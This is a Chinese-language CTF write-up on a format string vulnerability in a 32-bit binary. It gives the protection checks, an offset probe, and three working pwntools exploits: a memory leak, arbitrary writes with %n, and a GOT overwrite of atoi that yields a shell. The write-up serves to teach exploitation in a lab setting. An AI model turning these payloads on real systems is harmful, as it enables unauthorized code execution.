

# 知识点

格式化字符串漏洞


# 题目分析

1. 查看保护情况，32位程序，开启Canary和NX保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，梳理程序流程，输入的数字和随机数相同就会触发system("/bin/sh")。

   发现存在格式化字符串漏洞，有两种利用思路：

   - 泄漏随机数变量，然后输入该随机数即可。
   - 修改该随机数变量，然后输入该随机数即可。

   

3. 首先泄漏格式化字符串到name变量的距离，通过观察打印的内容得知，距离为10。

   ```bash
   root@ubuntu:~/Desktop# ./pwn
   your name:AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
   Hello,AAAA-0xff8e1ff8-0x63-(nil)-0xff8e201e-0x3-0xc2-0xf7e6a79b-0xff8e201e-0xff8e211c-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70
   ��D���� ��your passwd:
   ```

   

# Exp

## 方法一：泄漏随机数变量

此方法的原理是利用了格式化字符串泄露任意地址数据，%s解析地址对应的数据。i$解析第i个变量。

```python
#!/usr/bin/python2

from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')

random = 0x0804C044

payload = p32(random) + '%10$s'
io.sendafter('your name:', payload)

io.recvuntil('\x08')
num = int(u32(io.recv(4)))
success('random_num = ' + str(num))

io.send(str(num))

io.interactive()
```


## 方法二：修改随机数变量

此方法的原理是利用了格式化字符串任意地址写的漏洞。%i$n表示将第i个地址存储的数据修改为字符串已打印的长度。

i$表示第i个变量，lln表示修改八个字节，n表示修改四个字节，hn表示修改两个字节，hhn表示修改一个字节。

其中：

- payload1是将地址放到payload后面，这样的好处是可以把数据改成很小的数。
- payload2是将地址放到payload前面，常规做法。
- payload3是利用pwntools提供的fmtstr_payload函数进行自动payload生成。

```python
#!/usr/bin/python2

from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')

random = 0x0804C044

payload1 = 'AAAA%16$n%17$n%18$n%19$n' + p32(random) + p32(random + 1) + p32(random + 2) + p32(random + 3)
payload2 = p32(random) + p32(random + 1) + p32(random + 2) + p32(random + 3) + '%10$hhn%11$hhn%12$hhn%13$hhn'
payload3 = fmtstr_payload(10, {random:0x1111})
io.sendafter('your name:', payload3)

io.send(str(0x1111))

io.interactive()
```


## 方法三：修改atoi的got表地址

由于保护情况为Partial RELRO，对got表有写权限，可以修改got表地址。

因此，我们可以直接将atoi的got表地址修改为system函数的plt表地址，程序再次read数据执行atoi时即可执行system函数。

```python
#!/usr/bin/python2

from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')
elf = ELF('./pwn')

atoi = elf.got['atoi']
system = elf.plt['system']

payload = fmtstr_payload(10, {atoi:system})
io.sendline(payload)

io.interactive()
```

